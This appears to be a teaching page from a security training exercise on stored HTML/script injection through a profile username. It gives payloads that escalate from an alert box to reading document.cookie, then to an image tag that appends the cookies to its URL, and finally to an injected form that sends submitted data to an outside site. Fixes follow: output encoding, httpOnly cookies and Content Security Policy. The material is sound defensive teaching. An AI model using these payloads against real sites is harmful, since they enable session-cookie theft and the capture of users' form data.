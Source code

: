 
# HTML Injection, part 2

If someone was to create an account with the username "evil" and the password "666".

Then changed their username to:

	evil<script>alert('hi')</script>

And then got the admin to look at their profile (username "admin", password "password")... what would happen?

Now, could this do something more evil.

Maybe there are some cookies to be stolen?

---

To build up an example, try setting the username to:

	evil<script>alert(document.cookie)</script>

Then click back and refresh the page.

Now try creating an image with JavaScript:

	evil<script>document.write('<img src=/security/uploads/profile-pictures/1.jpg />');</script>

Now try combining the two together:

	evil<script>document.write('<img src=/security/uploads/profile-pictures/1.jpg?c='+encodeURIComponent(document.cookie)+' />');</script>

So after refreshing the page, you will see that the image is requested with the cookies appended to the end.

Now imagine what would happen if the image source pointed to an image on an evil website, and that evil website sent back a 1x1 px transparent GIF (or something more malicious).

---

To fix...

As before, you should encode all user supplied values on the page.

You can also try to limit the amount of damage that can be done - for example, cookies can be marked as `httpOnly`, which means JavaScript itself cannot steal whats stored in them (if JavaScript makes requests to your website, e.g. via XMLHttpRequest, then these cookies are still included).

And you can look at adding a [Content Security Policy](https://developers.google.com/web/fundamentals/security/csp/) - this is a really nice way to stop requests being made out to evil websites.

It's also a good idea to not use any inline JavaScript or Styles, and get the Content Security Policy to enforce this. There are cases where this can be tricky, but it's not impossible.

---

Bonus problem...

What happens if the username is set to:

	evil<form action=https://example.com>

Now go back, and try making another change, and see where the form is sent to :-)

You will also notice that the full URL contains all of the details that were in that form.
